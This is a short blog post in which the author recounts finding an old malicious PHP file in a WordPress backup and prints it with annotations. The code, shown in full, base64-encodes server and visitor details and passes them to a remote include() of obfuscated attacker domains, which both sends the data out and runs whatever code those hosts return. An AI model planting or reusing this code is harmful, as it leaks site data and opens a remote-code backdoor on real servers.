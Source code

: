 ```yaml
---
title: "An old WordPress hack I found"
date: "Fri Jan 21 14:45:00 -0500 2022"
category: dev
---
```


I was poking through old WordPress backups I have and noticed a strange
`wp-content/85060.php` file. Turns out one of my sites was backed back in 2006
or 2007 and I had never noticed.

The file looks to be a surveillance script of some sort that sends server
information to another site `rssnews.ws` or `xmldata.info`.

```php
<? error_reporting(0);
$s="e";
$a=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
$b=(isset($_SERVER["SERVER_NAME"]) ? $_SERVER["SERVER_NAME"] : $SERVER_NAME);
$c=(isset($_SERVER["REQUEST_URI"]) ? $_SERVER["REQUEST_URI"] : $REQUEST_URI);
$d=(isset($_SERVER["PHP_SELF"]) ? $_SERVER["PHP_SELF"] : $PHP_SELF);
$e=(isset($_SERVER["QUERY_STRING"]) ? $_SERVER["QUERY_STRING"] : $QUERY_STRING);
$f=(isset($_SERVER["HTTP_REFERER"]) ? $_SERVER["HTTP_REFERER"] : $HTTP_REFERER);
$g=(isset($_SERVER["HTTP_USER_AGENT"]) ? $_SERVER["HTTP_USER_AGENT"] : $HTTP_USER_AGENT);
$h=(isset($_SERVER["REMOTE_ADDR"]) ? $_SERVER["REMOTE_ADDR"] : $REMOTE_ADDR);
$i=(isset($_SERVER["SCRIPT_FILENAME"]) ? $_SERVER["SCRIPT_FILENAME"] : $SCRIPT_FILENAME);
$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"]) ? $_SERVER["HTTP_ACCEPT_LANGUAGE"] : $HTTP_ACCEPT_LANGUAGE);

$str=base64_encode($a).".".
	base64_encode($b).".".
	base64_encode($c).".".
	base64_encode($d).".".
	base64_encode($e).".".
	base64_encode($f).".".
	base64_encode($g).".".
	base64_encode($h).".$s.".
	base64_encode($i).".".
	base64_encode($j);

// base64_decode('d3d3My5yc3NuZXdzLndz") #=> rssnews.ws
if ((include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My5yc3NuZXdzLndz")."/?".$str))) {
} else {
	// base64_decode("aHR0cDovLw==")             #=> http://
	// base64_decode("d3d3My54bWxkYXRhLmluZm8=") #=> www3.xmldata.info
	include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My54bWxkYXRhLmluZm8=")."/?".$str);
} ?>
```

No idea what this would be for, and I didn't see any other malicious files
present. Presumably this was intended to give an attacker a list of vulnerable
sites that they could exploit later.

Fun to find out about a hack 15 years later!
